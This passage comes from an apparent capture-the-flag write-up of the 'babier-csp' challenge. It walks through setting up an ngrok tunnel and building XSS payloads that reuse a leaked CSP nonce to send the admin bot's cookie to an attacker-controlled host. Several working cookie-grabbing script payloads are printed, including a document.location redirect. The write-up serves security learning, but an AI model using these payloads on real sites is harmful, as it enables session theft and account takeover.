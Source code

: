 ```<script>alert(1)</script>```
3. Run your ngrok server and specify port 8000 since that is the default for python servers

    ```./ngrok http 8000```



Your webserver is now up and running! You can go to ngrok's web interface to see requests and responses to your server. 
This is where we'll be able to see the cookie when we steal it from the admin.


If you performed all 3 steps, when you enter your url into your browser, it'll show a directory listing with nothing in it.
This is becuase there is nothing on your webserver. This is fine.


If only did step 3, it will say your connection was tunneled, but it couldn't connect.
This is because you aren't running a server on the port ngrok is connected to. This is also fine.
<br /><br />


## Redircting the admin to your server

I decided to go with script since that's what I'm more comfortable working with

I created the following payload based off of the image one. 

```https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%22g%2bojjmb9xLfE%2b3j9PsP/Ig==%22%20src=%22https://02570c54389d.ngrok.io/%22%2bdocument.cookie%3E%3C/script%3E```

Which decodes to 

```https://babier-csp.dicec.tf/?name=<script nonce="g+ojjmb9xLfE+3j9PsP/Ig==" src="https://02570c54389d.ngrok.io/"+document.cookie></script>```


If we send it to the admin bot, and we check our ngrok interface, we can see their request! (You can also see it in your terminals running ngrok/python)


![first_ngrok](/assets/babier_csp/ngrok_first.png)


The only issue is that the cookie isn't attached. If we try this xss on our own, it appears that its trying to use ```+document.cookie``` as a parameter for the script tag.


![fail_cookie](/assets/babier_csp/fail_cookie.png)


Looks like we'll have to have the redirect inside of our script tags


After some googling, we get a few payloads, some of them contain image elements within the javascript, but we know those won't work since they don't have nonce!
We do find one that looks interesting though. It uses document.location inside of the script tags

[```<script type=“text/javascript”>document.location=“http://192.168.0.48:5000/?c=“+document.cookie;</script>```](https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2)

Let's try it with our own webserver, and get rid of the '?c=' since we won't need it

```<script nonce="g+ojjmb9xLfE+3j9PsP/Ig==">document.location="http://02570c54389d.ngrok.io/"+document.cookie;</script>```

```